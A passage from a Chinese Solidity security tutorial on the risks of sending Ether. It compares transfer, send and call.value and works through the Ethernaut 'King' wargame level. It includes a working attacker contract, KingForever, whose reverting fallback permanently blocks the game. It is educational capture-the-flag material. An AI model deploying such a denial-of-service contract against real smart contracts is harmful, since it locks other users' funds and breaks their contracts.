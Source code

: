 ### 1. 发送和接收以太币存在的安全风险

Solidity中有三种方式可以向目标地址发送ether:

`<address>.transfer(uint256 amount)`向目标地址发送amount wei的以太币，失败时**抛出异常**，发送 **2300 gas **的矿工费，不可调节。

`<address>.send(uint256 amount) returns (bool)`向目标地址发送amount wei的以太币，失败时**返回false**，发送 2300 gas 的矿工费，不可调节。

`<address>.call.value(uint256 amount)() returns (bool)`向目标地址发送amount wei的以太币，失败时返回false，发送**所有可用gas**，可调节(`.gas(uint256 gasAmount)`)。

如果一个合约收到了 以太币Ether （且没有函数被调用），就会执行 fallback函数。 如果没有 fallback函数，那么 以太币Ether 会被拒收（同时会抛出异常）。 如果合约使用transfer/send方式向目标合约地址发送Ether，在目标合约fallback函数的执行过程中，合约只能依靠此时可用的"gas 津贴"（2300 gas）来执行。这笔津贴并不足以用来完成任何方式的 存储storage 访问。为了确保你的合约可以通过这种方式收到 以太币Ether，请核对 fallback函数所需的 gas 数量 。

-   向地址发送Ether可能存在的安全风险
    -   案例

以下代码来自于[Ethernaut-King](https://ethernaut.zeppelin.solutions/level/0x32d25a51c4690960f1d18fadfa98111f71de5fa7)

``` {.solidity}
  pragma solidity ^0.4.18;
  
  import 'zeppelin-solidity/contracts/ownership/Ownable.sol';
  
  contract King is Ownable {
  
    address public king;
    uint public prize;
  
    function King() public payable {
      king = msg.sender;
      prize = msg.value;
    }
  
    function() external payable {
      require(msg.value >= prize || msg.sender == owner);
      king.transfer(msg.value);
      king = msg.sender;
      prize = msg.value;
    }
  }
```

无论谁发送一个大于当前奖金的ether，都会成为新的国王，被推翻的国王获得了新的奖金。如果攻击者部署一个合约，代码如下：

``` {.solidity}
pragma solidity ^0.4.24;

contract KingForever {

    constructor() public payable {
        address a = 0x81301fDa94783D90362b16d475012DAF15BD571A;//原合约地址
        a.call.value(msg.value)();
    }
    
    function() external payable {
        revert();
    }
}
```

